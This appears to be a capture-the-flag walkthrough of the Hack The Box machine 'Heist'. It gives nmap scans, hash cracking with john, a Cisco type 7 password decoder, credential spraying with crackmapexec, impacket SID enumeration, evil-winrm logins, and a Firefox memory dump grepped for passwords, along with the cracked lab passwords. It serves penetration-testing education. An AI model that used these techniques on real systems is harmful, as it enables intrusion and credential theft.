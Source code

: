 # [Heist](https://app.hackthebox.com/machines/heist)

```bash
nmap -p- --min-rate 10000 10.10.10.149 -Pn
```

![Alt text](img/image.png)


Let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p80,135,445,5985 10.10.10.149
```

![Alt text](img/image-1.png)


I access the web application and login as `guest` user.

![Alt text](img/image-2.png)


I see attachments section from here, and see sensitive credentials from here.

![Alt text](img/image-3.png)


I cracked this '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' hash via `john` tool.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
```

![Alt text](img/image-4.png)


Password is 'stealth1agent'


I found this [blog](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html) to crack Cisco type passwords.

I wrote a Python script to crack these passwords.

```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

![Alt text](img/image-5.png)


Until now, let's see my grabbed passwords.

```bash
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```


I check these passwords for `hazard` user via `crackmapexec` tool.
```bash
crackmapexec smb -u hazard -p passwords 10.10.10.149
```

![Alt text](img/image-6.png)


Let's collect all domain info via this account by using script '**lookupsid.py**' script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py hazard:stealth1agent@10.10.10.149
```

![Alt text](img/image-7.png)


I collect usernames from here.

```bash
support
chase
jason
administrator
```

Let's again do brute-force theese passwords and usernames list.

```bash
crackmapexec smb 10.10.10.149 -u users -p passwords
```

![Alt text](img/image-8.png)


Let's login into machine via `chase` credentials by using `evil-winrm` tool.
```bash
evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
```

user.txt

![Alt text](img/image-9.png)


While enumeration via `get-process firefox`, I see many tabs that's why I need to dump some sensitive data from here.


For this, I will use [Out-MiniDump](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)


After uploading this powershell script into machine, we need to import this as module.
```bash
Import-Module .\Out-Minidump.ps1
```

![Alt text](img/image-10.png)


Let's use this script for specific process for `Firefox`.

![Alt text](img/image-11.png)


After downloading this `.dmp` file, we need to read data from here.
```bash
grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox_2976.dmp
```

![Alt text](img/image-12.png)


I grab administrator's password from here.

administrator: 4dD!5}x/re8]FBuZ


Let's login into machine via `evil-winrm` to grab root.txt
```bash
evil-winrm -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'
```


root.txt

![Alt text](img/image-13.png)